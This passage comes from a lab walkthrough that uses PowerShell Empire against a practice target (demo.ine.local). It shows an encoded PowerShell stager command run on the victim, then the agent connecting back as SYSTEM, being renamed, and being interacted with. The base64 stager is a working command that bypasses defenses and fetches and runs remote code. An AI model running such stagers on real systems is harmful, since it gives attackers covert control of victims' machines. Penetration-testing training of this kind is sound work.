 <span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Executing the generated stager payload on the target machine to establish a connection._

```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

<span style="color: #2196f3;">PowerShell-Empire Client</span>.

_Verifying that the agent has successfully connected back to the Empire server._

`main`, `agents`:

| ID | Name      | Language   | Internal IP | Username         | Process    | PID  | Delay | Last Seen               | Listener |
|----|-----------|------------|-------------|------------------|------------|------|-------|-------------------------|----------|
| 1  | 9UHYCNAD* | powershell | 10.4.16.167 | WORKGROUP\SYSTEM | powershell | 3016 | 5/0.0 | 2024-08-06 22:12:18 IST | http     |
|    |           |            |             |                  |            |      |       | (2 seconds ago)         |          |

_Renaming the agent for easier identification._

`rename 9UHYCNAD DemoINE`

`agents`:

| ID | Name     | Language   | Internal IP | Username         | Process    | PID  | Delay | Last Seen               | Listener |
|----|----------|------------|-------------|------------------|------------|------|-------|-------------------------|----------|
| 1  | DemoINE* | powershell | 10.4.16.167 | WORKGROUP\SYSTEM | powershell | 3016 | 5/0.0 | 2024-08-06 22:12:49 IST | http     |
|    |          |            |             |                  |            |      |       | (now)                   |          |

_Interacting with the newly connected agent to execute further commands._

`interact DemoINE`

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Displaying detailed information about the connected agent._

`info`:

| ID               | 1                                             |
|------------------|-----------------------------------------------|
| architecture     | AMD64                                         |
| checkin_time     | 2024-08-06T16:41:12+00:00                     |
| children         |                                               |
| delay            | 5                                             |
| external_ip      | 10.4.16.167                                   |
| functions        |                                               |
| high_integrity   | 1                                             |
| hostname         | ATTACKDEFENSE                                 |
| internal_ip      | 10.4.16.167                                   |
| jitter           | 0.0                                           |